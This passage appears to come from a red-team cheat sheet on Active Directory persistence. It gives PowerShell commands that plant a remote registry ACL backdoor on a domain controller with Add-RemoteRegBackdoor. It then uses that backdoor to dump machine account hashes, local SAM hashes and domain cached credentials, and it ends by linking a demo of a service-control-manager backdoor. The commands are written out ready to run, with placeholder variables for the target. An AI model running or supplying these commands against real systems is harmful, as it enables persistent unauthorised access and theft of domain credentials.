 <img src="https://github.com/jomivz/jomivz.github.io/blob/master/assets/images/ad-persist-sd-REG-invoke-remoteregbackdoor.png" width="500">

```powershell
# allows for the remote retrieval of a system's machine and local account hashes, as well as its domain cached credentials.
Add-RemoteRegBackdoor -ComputerName $zdom_dc_name -Trustee $ztarg_user_name -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local machine account hash for the specified machine.
Get-RemoteMachineAccountHash -ComputerName $zdom_dc_name -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the local SAM account hashes for the specified machine.
Get-RemoteLocalAccountHash -ComputerName $zdom_dc_name -Verbose

# Abuses the ACL backdoor set by Add-RemoteRegBackdoor to remotely retrieve the domain cached credentials for the specified machine.
Get-RemoteCachedCredential -ComputerName $zdom_dc_name -Verbose
```

### <a name='SCManager'></a>SC Manager

- [DEMO SCM backdoor](https://www.youtube.com/watch?v=tETNO22zVKM) / service creation
